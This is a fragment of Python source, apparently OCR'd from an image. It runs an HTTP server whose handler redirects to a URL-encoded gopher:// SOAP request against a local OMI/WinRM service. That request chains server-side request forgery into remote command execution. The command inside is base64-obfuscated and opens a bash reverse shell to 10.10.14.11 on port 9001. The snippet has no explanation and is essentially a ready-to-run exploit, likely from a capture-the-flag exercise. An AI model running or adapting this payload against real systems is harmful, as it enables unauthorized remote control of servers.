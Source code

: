 ```python
        self.send_header("Location", "gopher://127.0.0.1:5985/_%50%4f%53%54%20%2f%77%73%6d%61%6e%20%48%54%54%50%2f%31%2e%31%0d%0a%48%6f%73%74%3a%20%31%30%2e%31%30%2e%31%31%2e%31%31%37%3a%35%39%38%36%0d%0a%55%73%65%72%2d%41%67%65%6e%74%3a%20%70%79%74%68%6f%6e%2d%72%65%71%75%65%73%74%73%2f%32%2e%32%35%2e%31%0d%0a%41%63%63%65%70%74%2d%45%6e%63%6f%64%69%6e%67%3a%20%67%7a%69%70%2c%20%64%65%66%6c%61%74%65%0d%0a%41%63%63%65%70%74%3a%20%2a%2f%2a%0d%0a%43%6f%6e%6e%65%63%74%69%6f%6e%3a%20%63%6c%6f%73%65%0d%0a%43%6f%6e%74%65%6e%74%2d%54%79%70%65%3a%20%61%70%70%6c%69%63%61%74%69%6f%6e%2f%73%6f%61%70%2b%78%6d%6c%3b%63%68%61%72%73%65%74%3d%55%54%46%2d%38%0d%0a%43%6f%6e%74%65%6e%74%2d%4c%65%6e%67%74%68%3a%20%31%37%32%38%0d%0a%0d%0a%3c%73%3a%45%6e%76%65%6c%6f%70%65%20%78%6d%6c%6e%73%3a%73%3d%22%68%74%74%70%3a%2f%2f%77%77%77%2e%77%33%2e%6f%72%67%2f%32%30%30%33%2f%30%35%2f%73%6f%61%70%2d%65%6e%76%65%6c%6f%70%65%22%20%78%6d%6c%6e%73%3a%61%3d%22%68%74%74%70%3a%2f%2f%73%63%68%65%6d%61%73%2e%78%6d%6c%73%6f%61%70%2e%6f%72%67%2f%77%73%2f%32%30%30%34%2f%30%38%2f%61%64%64%72%65%73%73%69%6e%67%22%20%78%6d%6c%6e%73%3a%68%3d%22%68%74%74%70%3a%2f%2f%73%63%68%65%6d%61%73%2e%6d%69%63%72%6f%73%6f%66%74%2e%63%6f%6d%2f%77%62%65%6d%2f%77%73%6d%61%6e%2f%31%2f%77%69%6e%64%6f%77%73%2f%73%68%65%6c%6c%22%20%78%6d%6c%6e%73%3a%6e%3d%22%68%74%74%70%3a%2f%2f%73%63%68%65%6d%61%73%2e%78%6d%6c%73%6f%61%70%2e%6f%72%67%2f%77%73%2f%32%30%30%34%2f%30%39%2f%65%6e%75%6d%65%72%61%74%69%6f%6e%22%20%78%6d%6c%6e%73%3a%70%3d%22%68%74%74%70%3a%2f%2f%73%63%68%65%6d%61%73%2e%6d%69%63%72%6f%73%6f%66%74%2e%63%6f%6d%2f%77%62%65%6d%2f%77%73%6d%61%6e%2f%31%2f%77%73%6d%61%6e%2e%78%73%64%22%20%78%6d%6c%6e%73%3a%77%3d%22%68%74%74%70%3a%2f%2f%73%63%68%65%6d%61%73%2e%64%6d%74%66%2e%6f%72%67%2f%77%62%65%6d%2f%77%73%6d%61%6e%2f%31%2f%77%73%6d%61%6e%2e%78%73%64%22%20%78%6d%6c%6e%73%3a%78%73%69%3d%22%68%74%74%70%3a%2f%2f%77%77%77%2e%77%33%2e%6f%72%67%2f%32%30%30%31%2f%58%4d%4c%53%63%68%65%6d%61%22%3e%0a%20%20%20%3c%73%3a%48%65%61%64%65%72%3e%0a%20%20%20%20%20%20%3c%61%3a%54%6f%3e%48%54%54%50%3a%2f%2f%31%39%32%2e%31%36%38%2e%31%2e%31%3a%35%39%38%36%2f%77%73%6d%61%6e%2f%3c%2f%61%3a%54%6f%3e%0a%20%20%20%20%20%20%3c%77%3a%52%65%73%6f%75%72%63%65%55%52%49%20%73%3a%6d%75%73%74%55%6e%64%65%72%73%74%61%6e%64%3d%22%74%72%75%65%22%3e%68%74%74%70%3a%2f%2f%73%63%68%65%6d%61%73%2e%64%6d%74%66%2e%6f%72%67%2f%77%62%65%6d%2f%77%73%63%69%6d%2f%31%2f%63%69%6d%2d%73%63%68%65%6d%61%2f%32%2f%53%43%58%5f%4f%70%65%72%61%74%69%6e%67%53%79%73%74%65%6d%3c%2f%77%3a%52%65%73%6f%75%72%63%65%55%52%49%3e%0a%20%20%20%20%20%20%3c%61%3a%52%65%70%6c%79%54%6f%3e%0a%20%20%20%20%20%20%20%20%20%3c%61%3a%41%64%64%72%65%73%73%20%73%3a%6d%75%73%74%55%6e%64%65%72%73%74%61%6e%64%3d%22%74%72%75%65%22%3e%68%74%74%70%3a%2f%2f%73%63%68%65%6d%61%73%2e%78%6d%6c%73%6f%61%70%2e%6f%72%67%2f%77%73%2f%32%30%30%34%2f%30%38%2f%61%64%64%72%65%73%73%69%6e%67%2f%72%6f%6c%65%2f%61%6e%6f%6e%79%6d%6f%75%73%3c%2f%61%3a%41%64%64%72%65%73%73%3e%0a%20%20%20%20%20%20%3c%2f%61%3a%52%65%70%6c%79%54%6f%3e%0a%20%20%20%20%20%20%3c%61%3a%41%63%74%69%6f%6e%3e%68%74%74%70%3a%2f%2f%73%63%68%65%6d%61%73%2e%64%6d%74%66%2e%6f%72%67%2f%77%62%65%6d%2f%77%73%63%69%6d%2f%31%2f%63%69%6d%2d%73%63%68%65%6d%61%2f%32%2f%53%43%58%5f%4f%70%65%72%61%74%69%6e%67%53%79%73%74%65%6d%2f%45%78%65%63%75%74%65%53%68%65%6c%6c%43%6f%6d%6d%61%6e%64%3c%2f%61%3a%41%63%74%69%6f%6e%3e%0a%20%20%20%20%20%20%3c%77%3a%4d%61%78%45%6e%76%65%6c%6f%70%65%53%69%7a%65%20%73%3a%6d%75%73%74%55%6e%64%65%72%73%74%61%6e%64%3d%22%74%72%75%65%22%3e%31%30%32%34%30%30%3c%2f%77%3a%4d%61%78%45%6e%76%65%6c%6f%70%65%53%69%7a%65%3e%0a%20%20%20%20%20%20%3c%61%3a%4d%65%73%73%61%67%65%49%44%3e%75%75%69%64%3a%30%41%42%35%38%30%38%37%2d%43%32%43%33%2d%30%30%30%35%2d%30%30%30%30%2d%30%30%30%30%30%30%30%31%30%30%30%30%3c%2f%61%3a%4d%65%73%73%61%67%65%49%44%3e%0a%20%20%20%20%20%20%3c%77%3a%4f%70%65%72%61%74%69%6f%6e%54%69%6d%65%6f%75%74%3e%50%54%31%4d%33%30%53%3c%2f%77%3a%4f%70%65%72%61%74%69%6f%6e%54%69%6d%65%6f%75%74%3e%0a%20%20%20%20%20%20%3c%77%3a%4c%6f%63%61%6c%65%20%78%6d%6c%3a%6c%61%6e%67%3d%22%65%6e%2d%75%73%22%20%73%3a%6d%75%73%74%55%6e%64%65%72%73%74%61%6e%64%3d%22%66%61%6c%73%65%22%20%2f%3e%0a%20%20%20%20%20%20%3c%70%3a%44%61%74%61%4c%6f%63%61%6c%65%20%78%6d%6c%3a%6c%61%6e%67%3d%22%65%6e%2d%75%73%22%20%73%3a%6d%75%73%74%55%6e%64%65%72%73%74%61%6e%64%3d%22%66%61%6c%73%65%22%20%2f%3e%0a%20%20%20%20%20%20%3c%77%3a%4f%70%74%69%6f%6e%53%65%74%20%73%3a%6d%75%73%74%55%6e%64%65%72%73%74%61%6e%64%3d%22%74%72%75%65%22%20%2f%3e%0a%20%20%20%20%20%20%3c%77%3a%53%65%6c%65%63%74%6f%72%53%65%74%3e%0a%20%20%20%20%20%20%20%20%20%3c%77%3a%53%65%6c%65%63%74%6f%72%20%4e%61%6d%65%3d%22%5f%5f%63%69%6d%6e%61%6d%65%73%70%61%63%65%22%3e%72%6f%6f%74%2f%73%63%78%3c%2f%77%3a%53%65%6c%65%63%74%6f%72%3e%0a%20%20%20%20%20%20%3c%2f%77%3a%53%65%6c%65%63%74%6f%72%53%65%74%3e%0a%20%20%20%3c%2f%73%3a%48%65%61%64%65%72%3e%0a%20%20%20%3c%73%3a%42%6f%64%79%3e%0a%20%20%20%20%20%20%3c%70%3a%45%78%65%63%75%74%65%53%68%65%6c%6c%43%6f%6d%6d%61%6e%64%5f%49%4e%50%55%54%20%78%6d%6c%6e%73%3a%70%3d%22%68%74%74%70%3a%2f%2f%73%63%68%65%6d%61%73%2e%64%6d%74%66%2e%6f%72%67%2f%77%62%65%6d%2f%77%73%63%69%6d%2f%31%2f%63%69%6d%2d%73%63%68%65%6d%61%2f%32%2f%53%43%58%5f%4f%70%65%72%61%74%69%6e%67%53%79%73%74%65%6d%22%3e%0a%20%20%20%20%20%20%20%20%20%3c%70%3a%63%6f%6d%6d%61%6e%64%3e%65%63%68%6f%20%2d%6e%20%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%43%34%78%4d%43%34%78%4e%43%34%78%4d%53%38%35%4d%44%41%78%49%44%41%2b%4a%6a%45%3d%20%7c%20%62%61%73%65%36%34%20%2d%64%20%7c%20%62%61%73%68%3c%2f%70%3a%63%6f%6d%6d%61%6e%64%3e%0a%20%20%20%20%20%20%20%20%20%3c%70%3a%74%69%6d%65%6f%75%74%3e%30%3c%2f%70%3a%74%69%6d%65%6f%75%74%3e%0a%20%20%20%20%20%20%3c%2f%70%3a%45%78%65%63%75%74%65%53%68%65%6c%6c%43%6f%6d%6d%61%6e%64%5f%49%4e%50%55%54%3e%0a%20%20%20%3c%2f%73%3a%42%6f%64%79%3e%0a%3c%2f%73%3a%45%6e%76%65%6c%6f%70%65%3e%0a")
        self.end_headers()

httpd = HTTPServer(('0.0.0.0', 443), MainHandler)
```
